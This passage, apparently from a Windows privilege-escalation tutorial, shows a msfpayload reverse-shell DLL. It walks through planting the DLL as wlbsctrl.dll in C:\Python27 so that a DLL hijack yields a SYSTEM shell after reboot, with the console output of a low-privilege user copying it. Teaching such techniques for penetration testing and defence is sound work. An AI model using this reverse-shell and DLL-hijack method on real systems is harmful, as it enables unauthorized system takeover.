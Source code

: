     Created by msfpayload (http://www.metasploit.com).
    Payload: windows/shell_reverse_tcp
     Length: 314
    Options: {"lhost"=>"127.0.0.1", "lport"=>"9988"}

After transferring the DLL to our target machine all we need to do is rename it to wlbsctrl.dll and move it to "C:Python27". Once this is done we need to wait patiently for the machine to be rebooted (or we can try to force a reboot) and we will get a SYSTEM shell.

    **# Again, this is as low privilege user1.**

    C:Usersuser1Desktop> dir

     Volume in drive C has no label.
     Volume Serial Number is 948D-A98F

     Directory of C:Usersuser1Desktop

    02/18/2014  01:49 PM    <DIR>          .
    02/18/2014  01:49 PM    <DIR>          ..
    04/22/2013  09:39 AM           331,888 accesschk.exe
    02/18/2014  12:38 PM            14,336 evil.dll
    01/25/2014  12:46 AM            36,864 fubar.exe
    01/22/2014  08:17 AM    <DIR>          incognito2
    06/30/2011  01:52 PM         1,667,584 ncat.exe
    11/22/2013  07:39 PM             1,225 wmic_info.bat
                   5 File(s)      2,051,897 bytes
                   3 Dir(s)      73,052,160 bytes free

    C:Usersuser1Desktop> copy evil.dll C:Python27wlbsctrl.dll

            1 file(s) copied.

    C:Usersuser1Desktop> dir C:Python27

     Volume in drive C has no label.
     Volume Serial Number is 948D-A98F

     Directory of C:Python27

    02/18/2014  01:53 PM    <DIR>          .
    02/18/2014  01:53 PM    <DIR>          ..
    10/20/2012  02:52 AM    <DIR>          DLLs
    10/20/2012  02:52 AM    <DIR>          Doc
    10/20/2012  02:52 AM    <DIR>          include
    01/28/2014  03:45 AM    <DIR>          Lib
    10/20/2012  02:52 AM    <DIR>          libs
    04/10/2012  11:34 PM            40,092 LICENSE.txt
    04/10/2012  11:18 PM           310,875 NEWS.txt
    04/10/2012  11:31 PM            26,624 python.exe
    04/10/2012  11:31 PM            27,136 pythonw.exe
    04/10/2012  11:18 PM            54,973 README.txt
    10/20/2012  02:52 AM    <DIR>          tcl
    10/20/2012  02:52 AM    <DIR>          Tools
    04/10/2012  11:31 PM            49,664 w9xpopen.exe
    02/18/2014  12:38 PM            14,336 wlbsctrl.dll
                   7 File(s)        523,700 bytes
                   9 Dir(s)      73,035,776 bytes free
